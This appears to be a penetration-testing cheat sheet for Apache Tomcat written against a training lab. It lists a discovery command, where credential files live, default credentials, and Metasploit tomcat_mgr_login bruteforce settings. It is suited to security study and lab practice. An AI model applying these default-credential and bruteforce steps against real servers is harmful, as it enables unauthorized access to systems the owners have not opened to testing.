 # tomcat

## Discovery

```shell
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```


## Important Files

**conf/tomcat-users.xml**

The tomcat-users.xml file stores user credentials and their assigned roles.

**webapps/customapp/WEB-INF/web.xml**

This file stores information about the routes used by the application and the classes handling these routes.

## Default Credentials

admin:admin
tomcat:tomcat

## Attacks

### Login Bruteforce

Metaspoilt as a login bruteforce

```
auxiliary/scanner/http/tomcat_mgr_login

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

